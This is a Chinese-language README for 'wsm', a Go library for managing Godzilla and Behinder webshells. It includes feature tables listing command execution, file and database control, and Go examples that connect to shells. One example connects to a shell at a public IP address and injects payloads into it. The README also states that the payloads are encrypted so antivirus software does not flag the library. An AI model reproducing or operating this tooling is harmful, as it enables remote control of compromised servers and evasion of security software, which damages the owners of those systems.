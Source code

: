# wsm

通过 go 直接管理您的哥斯拉或冰蝎 webshell 的库

#### 哥斯拉

| 脚本类型  | 支持的加密类型    | 功能支持                                       |
| --------- | ----------------- | ---------------------------------------------- |
| asp       | XOR_BS6、XOR_RAW  | 存活验证、基本信息、命令执行、文件、数据库操作 |
| jsp、jspx | AES_BS64、AES_RAW | 存活验证、基本信息、命令执行、文件、数据库操作 |
| aspx      | AES_BS64、AES_RAW | 存活验证、基本信息、命令执行、文件、数据库操作 |
| php       | XOR_BS6、XOR_RAW  | 存活验证、基本信息、命令执行、文件、数据库操作 |

#### 冰蝎

| 脚本类型  | 支持的加密类型 | 功能支持                                       |
| --------- | -------------- | ---------------------------------------------- |
| asp       | XOR            | 存活验证、基本信息、命令执行、文件、数据库操作 |
| jsp、jspx | AES            | 存活验证、基本信息、命令执行、文件、数据库操作 |
| aspx      | AES            | 存活验证、基本信息、命令执行、文件、数据库操作 |
| php       | XOR、AES       | 存活验证、基本信息、命令执行、文件、数据库操作 |

#### 例子

冰蝎

```go
package main

import (
	"fmt"
	"github.com/go0p/wsm"
	"github.com/go0p/wsm/lib/shell"
	"github.com/go0p/wsm/lib/shell/behinder"
	"log"
)

func main() {
	info := &wsm.BehinderInfo{
		BaseShell: wsm.BaseShell{
			Url:      "http://127.0.0.1:8080/bx.jsp",
			Password: "rebeyond",
			Script:   shell.JavaScript,
			Proxy:    "http://127.0.0.1:9999",
			Headers:  nil,
		}}
	bx, err := wsm.NewBehinder(info)
	if err != nil {
		log.Println(err)
	}
	// 验证存活
	i, err := bx.Ping()
	if err != nil {
		log.Println(err)
	}
	fmt.Println(i)
}
```

##### 哥斯拉

```go
package main

import (
	"fmt"
	"github.com/go0p/wsm"
	"github.com/go0p/wsm/lib/charset"
	"github.com/go0p/wsm/lib/shell"
	"github.com/go0p/wsm/lib/shell/godzilla"
	"log"
)

func main() {
	info := &wsm.GodzillaInfo{
		BaseShell: wsm.BaseShell{
			Url:      "http://139.196.175.86:8080/bs64.jsp",
			Password: "pass",
			Script:   shell.JavaScript,
			Proxy:    "http://127.0.0.1:9999",
		},
		Key:      "key",
		Crypto:   godzilla.JAVA_AES_BASE64,
		Encoding: charset.UTF8CharSet,
	}
	g, err := wsm.NewGodzillaInfo(info)
	if err != nil {
		log.Println(err)
	}
	// 注入全部的 payload
	err = g.InjectPayload()
	if err != nil {
		log.Println(err)
	}

	isAlive, err := g.Ping()
	if err != nil {
		log.Println(err)
	}
	fmt.Println(isAlive)
}
```

更多例子可以看 [**examples**](https://github.com/Go0p/wsm/tree/main/examples)

#### 流量解密

支持流量解密

#### 说明

*payload 进行了 gzip 压缩后再 aes 加密，这样做是为了拉取该库时，不被杀软报毒*

#### 感谢

[Behinder](https://github.com/rebeyond/Behinder)

[Godzilla](https://github.com/BeichenDream/Godzilla)

[As-Exploits](https://github.com/yzddmr6/As-Exploits)

[每篇文章](https://yzddmr6.com/)
